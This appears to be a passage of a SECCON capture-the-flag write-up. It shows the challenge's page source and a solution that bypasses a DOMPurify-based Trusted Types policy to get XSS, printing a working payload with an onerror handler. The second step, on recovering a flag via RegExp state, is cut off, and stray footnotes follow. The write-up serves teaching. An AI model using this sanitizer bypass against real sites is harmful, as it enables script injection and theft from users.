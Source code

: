 ```html
      const message = `${params.get("message")}${
        document.cookie.split("FLAG=")[1] ?? "SECCON{dummy}"
      }`;
      // Delete a secret in document.cookie
      document.cookie = "FLAG=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
      get("message").innerHTML = message;

      const emoji = get(params.get("emoji"));
      get("message").innerHTML = get("message").innerHTML.replace(/{{emoji}}/g, emoji);
    };

    document.addEventListener("DOMContentLoaded", async () => {
      await init();
      await main();
    });
  </script>
</body>
</html>
```

### Solution

#### Step 1: XSS with bypassing Trusted Types

The settings of Trusted Types is as follows:
```javascript
    trustedTypes.createPolicy("default", {
      createHTML: (unsafe) => {
        return DOMPurify.sanitize(unsafe)
          .replace(/SECCON{.+}/g, () => {
            // Delete a secret in RegExp
            "".match(/^$/);
            return "SECCON{REDACTED}";
          });
      },
    });
```

For example, you can bypass it to XSS with the following payload:
```javascript
> createHTML('SECCON{x<p id="}<img src=0 onerror=console.log(1)>"></p>')
'SECCON{REDACTED}<img src=0 onerror=console.log(1)>"></p>'
```

However, you cannot steal a flag from `document.cookie` because the flag is deleted in:
```javascript
document.cookie = "FLAG=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
```

#### Step 2: RegExp in DOMPurify

By the way, what is the following line in `createHTML`?
```javascript
// Delete a secret in RegExp
"".match(/^$/);
```


[^top-1]: Because of my lack of consideration, many players solved this challenge by unintended solutions :cry:
[^spanote-1]: In fact, you can skip this step because bfcache is disabled by [default options](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175) of puppeteer.